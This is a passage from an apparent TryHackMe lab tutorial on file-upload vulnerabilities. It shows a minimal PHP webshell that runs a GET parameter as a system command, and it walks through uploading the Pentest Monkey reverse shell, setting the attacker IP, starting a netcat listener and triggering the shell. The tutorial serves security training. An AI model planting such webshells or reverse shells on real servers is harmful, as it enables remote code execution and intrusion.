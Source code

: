 Now, if we go to `http://demo.uploadvulns.thm/uploads` we should see that the spaniel picture has been uploaded!

![img](https://i.imgur.com/lVe2tjL.png)

![img](https://i.imgur.com/N8vWlVO.png)

Ok, we can upload images. Let's try a webshell now.

As it is, we know that this webserver is running with a PHP back-end, so we'll skip straight to creating and uploading the shell.  In real life, we may need to do a little more enumeration; however, PHP  is a good place to start regardless. 

A simple webshell works by taking a parameter and executing it as a system command. In PHP, the syntax for this would be:

```php
<?php
    echo system($_GET["cmd"]);
?>
```

This code takes a GET parameter and executes it as a system command. It then echoes the output out to the screen.

Let's try uploading it to the site, then using it to show our current user and the contents of the current directory:

![img](https://i.imgur.com/CU0Uyx5.png)



Success!

We could now use this shell to read files from the system, or upgrade from here to a reverse shell. Now that we have RCE, the options are  limitless. Note that when using webshells, it's usually easier to view  the output by looking at the source code of the page. This drastically  improves the formatting of the output.

------

***Reverse Shells:***

The process for uploading a reverse shell is almost identical to that of  uploading a webshell, so this section will be shorter. We'll be using  the ubiquitous Pentest Monkey reverse shell, which comes by default on  Kali Linux, but can also be downloaded [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). You will need to edit line 49 of the shell. It will currently say `$ip = '127.0.0.1'; // CHANGE THIS` -- as it instructs, change `127.0.0.1` to your TryHackMe tun0 IP address, which can be found on the [access page](https://tryhackme.com/access). You can ignore the following line, which also asks to be changed. With  the shell edited, the next thing we need to do is start a Netcat  listener to receive the connection. `nc -lvnp 1234`:

![img](https://i.imgur.com/ysY306E.png)

Now, let's upload the shell, then activate it by navigating to `http://demo.uploadvulns.thm/uploads/shell.php`. The name of the shell will obviously be whatever you called it (`php-reverse-shell.php` by default).
